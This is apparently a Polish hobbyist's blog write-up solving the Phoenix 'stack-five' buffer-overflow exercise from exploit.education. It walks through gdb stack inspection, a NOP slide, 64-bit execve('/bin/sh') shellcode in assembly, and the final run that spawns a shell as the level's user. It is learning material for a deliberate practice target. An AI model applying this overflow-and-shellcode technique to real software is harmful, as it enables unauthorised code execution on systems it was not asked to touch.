 ```yaml
---
title: "Phoenix: Stack Five - czyli jak spędzić pół roku nad jednym crackme"
category: pl
tags: binary-exploitation
---
```


*Gdybym miałbym wybrać pracę   
za dowolnie jaką płacę   
chciałbym zostać pentesterem   
hackować NASA moim tosterem*

Jak to piszę jest godzina 23:33 zimowego czasu polskiego - poszedłbym już 
sobie słodko spać gdyby nie fakt, że mam już prawie ukończone hackme, które
jest moim nemesis - stack5 ze Phoenix (exploit-education). Tego wyzwania podjąłem
się praktycznie zaraz po dowiedzeniu się o nim z jednego z tutoriali LiveOverflow,
czyli jakieś pół roku temu. Nie potrafiąc rozwiązać zadania, rzuciłem je. Teraz,
kiedy wzięło mnie na uczenie się assemblera x86-64, postanowiłem ponownie podejść
do zadania. 

```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
If you’re happy and you know it, segmentation fault. If you’re happy and you know it, segmentation fault. If you’re happy and you know it, and you really want to show it, if you’re happy and you know it, segmentation fault.
Segmentation fault
```

Mając odrobinę wiedzy więcej niż wcześniej, zacząłem od stworzenia
prostego skryptu w pythonie, który generował by mi ciąg kolejnychliter 
alfabetu w zależności od podanej długości

```python
#!/usr/bin/python

import sys
alphabet = 'abcdefghijklmnopqrstuvwyzABCDEFGHIJKLMNOPQRSTUVWYZ'

num = int(sys.argv[1])

for c in alphabet[:num]:
    sys.stdout.write(c*8)
```

Pozwoli mi to łatwo zobaczyć, gdzie są umieszczane dane na stosie.
Jak widać, nie jest to coś skomplikowanego, ale na tą potrzebę starcza.

```
./alphabet.py 16 | ./amd64/stack-five
Segmentation fault
./alphabet.py 15 | ./amd64/stack-five
```

Program się nie wykrzaczył - zapiszę sobie output do jakiegoś pliku,
żeby w vimie przy pomocy `:%!xxd` sobie później dopisać potrzebne dane.

```
mkdir stack5
./alphabet.py 15 > stack5/payload
```

Szybki teścik - `./amd64/stack-five < stack5/payload` działa.
Pora na najlepszego przyjaciela programisty - debuggera. Debugując już `stack-five` 
poraz n-ty, (gdzie n jest liczbą większą od liczby odcinków *Mody na Sukces*) wiem, 
że instrukcja po wywołaniu `gets()` ma adres `start_level+20`

```
(gdb) b *start_level+20
Breakpoint 1 at 0x4005d1
(gdb) r < stack5/payload 
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) x/18xg $rsp
0x7fffffffe5b0:	0x6161616161616161	0x6262626262626262
0x7fffffffe5c0:	0x6363636363636363	0x6464646464646464
0x7fffffffe5d0:	0x6565656565656565	0x6666666666666666
0x7fffffffe5e0:	0x6767676767676767	0x6868686868686868
0x7fffffffe5f0:	0x6969696969696969	0x6a6a6a6a6a6a6a6a
0x7fffffffe600:	0x6b6b6b6b6b6b6b6b	0x6c6c6c6c6c6c6c6c
0x7fffffffe610:	0x6d6d6d6d6d6d6d6d	0x6e6e6e6e6e6e6e6e
0x7fffffffe620:	0x6f6f6f6f6f6f6f6f	0x00007fffffffe600
0x7fffffffe630:	0x00007fffffffe650	0x00000000004005f7
(gdb) 
```

Widać tutaj wyraźnie input i trzy jakieś liczby.
Pierwszy wskazuje jakoś na końcówkę bufora, drugi jest wartością poprzedniego
adresu podstawy ramki, trzeci jest adresem powrotu do `main()`.

Po zastąpieniu pierwszej na 0x4141414141414141 (czytaj: 'AAAAAAAA') w sumie nic
ważnego się nie dzieje - niby jest segfault, ale dopiero pod koniec maina.
Następną wartość trzeba by było zmienić na coś sensownego - w przeciwnym wypadku
w trakcie wychodzenia z `start_level` pojawi się znowu segfault. Najlepiej najbliższym
adresem na stos.
Adres powrotu - gwóźdź programu - trzeba nakierować na shellcode, którego wpisaliśmy,
czyli na stos. 

Mechanikę zjeżdżalni można użyć tutaj - zamiast
dokładnego adresu shellcode'u, wstawić adres środka sporego ciągu instrukcji NOP,
na którego końcu jest nasz kod. Mówi się, że NOP nic nie robi, ale pamiętajcie, że
wskaźnik instrukcji sam się nie zinkrementuje. Na końcu tej 'zjeżdżalni' będzie
xCC, czyli instrukcja breakpoint - ta magiczna wartość, która przerywa działanie
programu i oddaje go debuggerowi (no chyba, że go nie ma, wtedy proces jest po
prostu zabijany :> ).
`:%!xxd -r`, `:w` i jedziemy dalej

```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe680 in ?? ()
(gdb) 
```

Czuję się niczym magik, mimo, że nie zrobiłem niczego odkrywczego. Co się
stanie gdy będę chciał odpalić ten program poza debuggerem?

`:!./amd64/stack-five < stack5/payload`
```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
/bin/bash: line 1:   603 Trace/breakpoint trap   ./amd64/stack-five < stack5/payload

shell returned 133

Press ENTER or type command to continue
```

Do szczęścia potrzeba tak niewiele :)
Nadszedł czas na amunicję grubego kalibru - własny shellcode. Dlatego, że
mam obraz Phoenix w wersji x86-64, muszę też stworzyć 64-bitową binarkę.

```
bits 64

call  LULZ
db    "/bin/sh", 0
LULZ:
mov   rax, 59
pop   rdi
xor   rsi, rsi
xor   rdx, rdx
syscall
```

Dla niewtajemniczonych:   
`call LULZ` wrzuca na stos adres rzeczy, która jest zaraz za nim i robi skok do LULZ,  
`mov rax, 59` execve() jest numerem odwołaniem systemowym numer 59  
`pop rdi` poprzednio wrzucony "/bin/sh" na stos zostaje zdjęte do rejestru rdi  
`xor rsi, rsi` zerowanie rejestru   
`syscall` - magia

`:!yasm shellcode.asm`
`:read shellcode`
Trzeba pamiętać jeszcze o usunięciu kodu xCC i znaku nowej linii

`r < stack5/payload`
```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.
process 614 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
[Inferior 1 (process 614) exited normally]
```

Próba poza gdb niestety zakończyła się niepowodzeniem. Prawdopodobnie zbyt mała
zjeżdżalnia albo zła wartość powrotu. Ale na tym się zatrzymałem za pierwszym
podejściem w tamtym roku, teraz MUSZĘ to zrobić!  
Druga próba - illegal instruction. Coś mi mówi, że jestem blisko.   
Trzecia próba - przesło gładko. Zwiększyłem długość nop slide i troszkę
skorygowałem adres powrotu. NARESZCIE!

```
svu@unassigned:~$ (cat stack5/payload; cat) | ./amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education

whoami
phoenix-amd64-stack-five
id
uid=1000(svu) gid=1000(svu) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(svu)
```

~~hmm... powłoka działa, ale program `stack-five` jest ma setuid, czyli ustawia
proces uruchamia się jako root, czyli powłoka też powinna być roota.~~
Nevermind, tak było w poprzedniku Phoenixa, czyli Protostar, teraz uid jest po
uruchomieniu programu ustawione na `phoenix-amd64-stack-five`

I tak, wiem, że zamiast   
`(cat stack5/payload; cat) | ./amd64/stack-five` mogłem napisać   
`cat stack5/payload - | ./amd64/stack-five`

*[LiveOverflow music plays](https://youtu.be/HSlhY4Uy8SA?t=729)*

<<EOF
